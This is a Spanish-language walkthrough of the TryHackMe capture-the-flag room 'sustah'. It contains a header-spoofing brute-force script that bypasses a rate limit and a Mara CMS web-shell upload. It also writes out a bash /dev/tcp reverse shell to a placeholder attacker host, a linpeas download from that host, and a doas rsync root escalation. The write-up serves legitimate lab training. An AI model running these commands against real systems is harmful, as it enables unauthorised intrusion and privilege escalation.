Para obtener las flags correspondientes tendremos que realizar fuerza bruta para encontrar el numero ganador y así encontraremos una ruta en el sitio web. Una vez en la ruta podremos visualizar un CMS que es vulnerable, esta vulnerabilidad nos permitirá subir un archivo malicioso y así obtener una shell dentro de la maquina. Para escalar privilegios tendremos que enumerar el sistema en donde encontraremos un backup con credenciales de los usuarios y abusar del binario de doas.


- Link [sustah](https://tryhackme.com/room/sustah)
- Created by [kiransau](https://tryhackme.com/p/kiransau)

# Walkthrough
--- 

## Enumeración

Vamos a iniciar enumerando los puertos abiertos. Ejecutamos el siguiente comando:

```php
❯ nmap -p- --open --min-rate 1000 -Pn -vvv -n 10.10.112.49 -oG allportsScan
```

Lanzando el comando anterior obtendremos el siguiente resultado.

```php
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
8085/tcp open  unknown syn-ack
```

Los puerto abiertos que encontramos son : `22`, `80` y `8085`. Ahora enumeraremos los servicios y las versiones de las tecnologías que se están ejecutando en cada uno de los servicios.

Para ello ejecutaremos los siguientes:

```php
❯ nmap -p22,80 -sC -sV -Pn -vvv -n 10.10.112.49 -oN servicesScan
```

Ejecutando el anterior comando obtendremos la enumeración de los servicios y versiones

```php
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7zuGtMGKQdFrh6Y8Dgwdo7815klLm7VzG05KNvT112MyF41Vxz+915iRz9nTSQ583i1cmjHp+q+fMq+QGiO0iwIdYN72jop6oFxqyaO2ZjBE3grWHSP2xMsTZc7qXgPu9ZxzVAfc/4mETA8B00yc6XNApJUwfJOYz/qt/pb0WHDVBQLYesg+rrr3UZDrj9L7KNFlW74mT0nzace0yqtcV//dgOMiG8CeS6TRyUG6clbSUdr+yfgPOrcUwhTCMRKv2e30T5naBZ60e1jSuXYmQfmeZtDZ4hdsBWDfOnGnw89O9Ak+VhULGYq/ZxTh31dnWBULftw/l6saLaUJEaVeb
|   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENNM4XJDFEnfvomDQgg0n7ZF+bHK+/x0EYcjrLP2BGgytEp7yg7A36KajE2QYkQKtHGPamSRLzNWmJpwzaV65w=
|   256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOd1NxUo0xJ3krpRI1Xm8KMCFXziZngofs/wjOkofKKV
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Susta
8085/tcp open  http    syn-ack Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: OPTIONS POST HEAD GET
|_http-server-header: gunicorn/20.0.4
|_http-title: Spinner
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Puerto 80
En el puerto `80` tenemos un sitio web que no hay mucho contenido la verdad.



### Puerto 8085

En este puerto tenemos algo interesante y un input que según giramos la ruleta podemos ingresar un numero. El numero que ingresamos será validado pero nos da un mensaje que es : "Oh no! How unlucky. Spin the wheel and try again."



Para ello interceptaremos con la herramienta de Burp Suite para poder tener mas control, si vamos enviando las peticiones y en un punto que ya no nos permitira enviar las peticiones debido al `rate limit`.



Para bypassear el `rate limit` podemos ayudarnos de [hacktrick](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

Ahora que sabemos como bypasser el `rate limit` vamos a hacer un script en python para automatizar la busqueda del numero ganador.

```python
import requests
from pwn import *
import sys
import signal

def crtl_C(signal,frame):
	print("[+] Exiting")
	sys.exit(0)

signal.signal(signal.SIGINT, crtl_C)

url = "http://10.10.194.73:8085/"

headers = {
	"X-Originating-IP": "127.0.0.1",
	"X-Forwarded-For": "127.0.0.1",
	"X-Remote-IP": "127.0.0.1",
	"X-Remote-Addr": "127.0.0.1",
	"X-Client-IP": "127.0.0.1",
	"X-Host": "127.0.0.1",
	"X-Forwared-Host": "127.0.0.1",
	"Host": "10.10.194.73:8085",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
	"Accept-Language": "es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
	"Accept-Encoding": "gzip, deflate, br",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "10",
	"Origin": "http://10.10.194.73:8085",
	"DNT": "1",
	"Sec-GPC": "1",
	"Connection": "close",
	"Referer": "http://10.10.194.73:8085/",
	"Upgrade-Insecure-Requests": "1",
}

p1=log.progress("Data")

for i in range(10000, 99999):
	data={"number":i}
	response = requests.post(url, headers=headers, data=data)
	p1.status("Probando el numero : %s" %(i))
	#print(response.text)
	if "Oh no! How unlucky. Spin the wheel and try again" in response.text:
		#print("texto encontrado")
		pass
	else:
		print("Numero encontrado")
		print(i) 
```

Ejecutando el script en python obtendremos el numero ganador.



Ingresando el numero ganador obtendremos la ruta del directorio del sitio web.



### Mara cms - Puerto 80

Teniendo la ruta del cms en el sitio web que es `/YouGotTh3P@th`


Enumerando el sitio web encontraremos un panel para las credenciales, credenciales que estan en el post.



Ingresando las credenciales podremos ingresar a una pestaña para cambiar las credenciales.



Cambiaremos las credenciales de `admin`.



Enumerando encontraremos un exploit de [mara cms](https://www.exploit-db.com/exploits/48780) que en el siguiente url `http://10.10.194.73/YouGotTh3P@th/codebase/dir.php?type=filenew` podremos subir un archivo `.php` malicioso. 



Subimos nuestro archivo malicioso.



Hacemos una petición con curl y observamos que podemos ejecutar comandos.



Para hacer urlencode de nuestra rever shell podemos usar el siguiente sitio web [https://www.urlencoder.org/](https://www.urlencoder.org/)

```php
bash -c 'exec bash -i &>/dev/tcp/[IP-ATTACKER]/443 <&1'
```

Enviamos la petición con nuestra revershell en urlencode.

- Primero pondremos a la escucha con `ncat`
```php
❯ ncat -nvlp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```

- Segundo, enviamos nuestra petición 

```php
❯ curl http://10.10.194.73/YouGotTh3P@th/img/shell.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F[IP-ATTACKER]%2F443%20%3C%261%27
```

## Escalada de Privilegios

### Usuario : www-data

- Luego de poner a la escucha `ncat` obtendremos una shell con el usuario `www-data`



Enumerando el sistema encontraremos un archivo `.bak.passwd` en la que encontraremos las credenciales para el usuario `kiran`


### Usuario : kiran

Las credenciales que encontraremos  son: `kiran: trythispasswordforuserkiran` y ingresando podemos loguearnos como el usuario `kiran`



Para seguir enumerando subiremos `linpeas`, usaremos `curl` y `chmod` para ejecutar

```php
curl http://[IP-ATTACKER]/linpeas.sh > linpeas.sh
chmod +x linpeas.sh
```

Ejecutando encontraremos un binario que es `doas` que se puede explotar



### Usuario :  root

Para poder explotar el binario `doas` debemos encontrar el archivo `doas.conf`, aqui puedes encontrar algunos recursos para que puedas revisar:

- [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/)
- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas)

El archivo `doas.conf` lo encontraremos el la ruta `/usr/local/etc/doas.conf` en donde encontraremos que el binario `rsync` se puede ejecutar con doas de manera privilegiada.



Para tener mas información sobre rsync podemos revisar [gtfobins](https://gtfobins.github.io/gtfobins/rsync/#sudo). Encontraremos que para obtener una shell como el usuario root debemos ejecutar el siguiente comando:

```php
 doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

Ejecutamos y obtendremos una shell como el usuario root.



¡VAMOS!
Happy hacking :).
